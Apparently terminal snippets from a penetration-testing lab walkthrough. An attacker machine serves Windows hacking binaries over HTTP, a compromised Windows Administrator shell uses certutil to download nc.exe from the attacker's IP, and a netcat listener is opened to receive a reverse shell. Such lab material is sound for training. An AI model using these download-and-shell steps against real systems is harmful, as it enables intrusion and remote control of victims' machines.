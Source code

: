 ```
root@attackdefense:~# cd /usr/share/windows-binaries
root@attackdefense:/usr/share/windows-binaries# ls
enumplus     fport	  nbtenum    radmin.exe     whoami.exe
exe2bat.exe  klogger.exe  nc.exe     vncviewer.exe
fgdump	     mbenum	  plink.exe  wget.exe
root@attackdefense:/usr/share/windows-binaries# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...

```

```
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\Administrator>cd Desktop

C:\Users\Administrator\Desktop>certutil -urlcache -f http://10.10.16.3/nc.exe nc
.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

```

```
root@attackdefense:/usr/share/windows-binaries# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.0.24.45 - - [20/Apr/2023 20:00:00] "GET /nc.exe HTTP/1.1" 200 -
10.0.24.45 - - [20/Apr/2023 20:00:00] "GET /nc.exe HTTP/1.1" 200 -

```

```
C:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is AEDF-99BD

 Directory of C:\Users\Administrator\Desktop

04/20/2023  02:30 PM    <DIR>          .
04/20/2023  02:30 PM    <DIR>          ..
09/11/2020  08:17 AM             1,050 BadBlue Enterprise Edition.lnk
04/20/2023  02:30 PM            59,392 nc.exe
               2 File(s)         60,442 bytes
               2 Dir(s)   9,284,546,560 bytes free

```

```
root@attackdefense:~# nc -nvlp 1234
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234

```
